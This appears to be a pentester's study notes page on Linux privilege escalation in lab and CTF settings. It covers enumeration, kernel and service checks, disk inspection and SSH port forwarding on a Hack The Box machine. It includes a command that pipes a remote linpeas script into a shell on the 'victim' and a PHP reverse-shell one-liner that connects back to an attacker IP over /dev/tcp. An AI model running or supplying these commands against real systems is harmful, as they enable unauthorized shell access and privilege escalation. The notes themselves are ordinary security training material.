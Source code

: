 ```yaml
---
sort : 7
---
```



# Privilege Escalation

A type of network attack used to gain unauthorized access to systems within a security perimeter.

I couldn't find a common path to follow, it's just all about following your intuition ^^.

All we need is some how to get a shell....

## Got A Shell ?? 

`Here are the most important attack vectors to perform :`























### 1. Knowing the compromised users permissions
```bash
$ whoami  

$ id 
```

### 1.1 Kernel Exploits

```bash 
$ uname -a
# OR
$ cat /proc/version
# OR 
$ cat /etc/issue  

```

```warning
Don't use kernel exploits if you can avoid it. If you use it it might crash the machine or put it in an unstable state. 

Always use a simpler priv-esc if you can. They can also produce a lot of stuff in the sys.log. So if you find anything good, put it up on your list and keep searching for other ways before exploiting it.
```



### 2. Privilege Escalation Scripts

```bash 
# On Victime Machine 
$ curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

some of what the script does is finding : 

#### 1. User Installed Software : 
If you find anything google it for exploits.

```bash
# Common locations for user installed software
/usr/local/
/usr/local/src
/usr/local/bin
/opt/
/home
/var/
/usr/src/

# Debian
$ dpkg -l

# CentOS, OpenSuse, Fedora, RHEL
rpm -qa (CentOS / openSUSE )

# OpenBSD, FreeBSD
pkg_info
```


#### 2. Service only available from inside

It might be that case that the user is running some service that is only available from that host. You can't connect to the service from the outside. It might be a development server, a database, or anything else. 

Check the netstat and compare it with the nmap-scan you did from the outside. Do you find more services available from the inside?

```bash
netstat -anlp
netstat -ano
```






















### 3. Misconfiguration 














### 5. An Expedition into System Files/Folders 

most of the time we gain a `broken shell` as www-data user .. SO .. try to write a php reverse shell file in any writeable folder inside `/var/www/` to get a better shell.
    
```note
`/var/www` is not the only place, it's just where the web server make it's actions.
```

```bash
$ find . -writable -type d
$ echo "<?php exec(\"/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.8/1234 0>&1'\");" > shell.php  		# escape the double quotes inside a double qoutes ^^ to bypass the overlapping
```



Another case when root is running some writable files ... or even some scripts that uses specific commands which could be manipulated by changing the PATH var.


We could also find some `Unmounted filesystems` 

```bash 
$ lsblk
    NAME   MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
    sda      8:0    0   10G  0 disk 
    ├─sda1   8:1    0  1.3G  0 part /lib/live/mount/persistence/sda1
    └─sda2   8:2    0  8.7G  0 part /lib/live/mount/persistence/sda2
    sdb      8:16   0   10M  0 disk /media/usbstick
    sr0     11:0    1 1024M  0 rom  
    loop0    7:0    0  1.2G  1 loop /lib/live/mount/rootfs/filesystem.squashfslsblk


$ fdisk -l

    Disk /dev/sdb: 10 MiB, 10485760 bytes, 20480 sectors
    Units: sectors of 1 * 512 = 512 bytes
    Sector size (logical/physical): 512 bytes / 512 bytes
    I/O size (minimum/optimal): 512 bytes / 512 bytes
    Disk /dev/sda: 10 GiB, 10737418240 bytes, 20971520 sectors
    Units: sectors of 1 * 512 = 512 bytes
    Sector size (logical/physical): 512 bytes / 512 bytes
    I/O size (minimum/optimal): 512 bytes / 512 bytes
    Disklabel type: dos
    Disk identifier: 0x0eddfb88

    Device     Boot   Start      End  Sectors  Size Id Type
    /dev/sda1  *         64  2709119  2709056  1.3G 17 Hidden HPFS/NTFS
    /dev/sda2       2709504 20971519 18262016  8.7G 83 Linux

    Disk /dev/loop0: 1.2 GiB, 1297825792 bytes, 2534816 sectors
    Units: sectors of 1 * 512 = 512 bytes
    Sector size (logical/physical): 512 bytes / 512 bytes
    I/O size (minimum/optimal): 512 bytes / 512 bytes
```


What if we are looking for a missing/deleted file ?? 
- check out if these is any backup files 
- try to recover some information from disk 

    ```bash
    $ sudo strings /dev/sdb​  
    ```

    Method 2 - Imaging and Recovery

    







### 1. Virtual Hosts

Looking at the `/etc/apache2/sites-enabled/internal.conf` conﬁguration ﬁle reveals that the
internal virtual host is running as joanna on localhost port 52846.


```xml
<VirtualHost 127.0.0.1:52846>
    ServerName internal.openadmin.htb
    DocumentRoot /var/www/internal

<IfModule mpm_itk_module>
AssignUserID joanna joanna
</IfModule>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>
```

##### WHat is happenning up there ?? 

	1. even if you changed the /etc/hosts to "10.10.10.171 internal.openadmin.htb" , you sitill won't be able to access the virtual host !! since the bind address with this service is only the loopback ^^ 
	2. so we can access it by port forwarding 
		victim@openadmin $ ssh -R 1337:127.0.0.1:52846 root@10.10.14.2					ssh -R [REMOTE:]REMOTE_PORT:DESTINATION:DESTINATION_PORT [USER@]SSH_SERVER
	3. or by curling locally from the victim machine.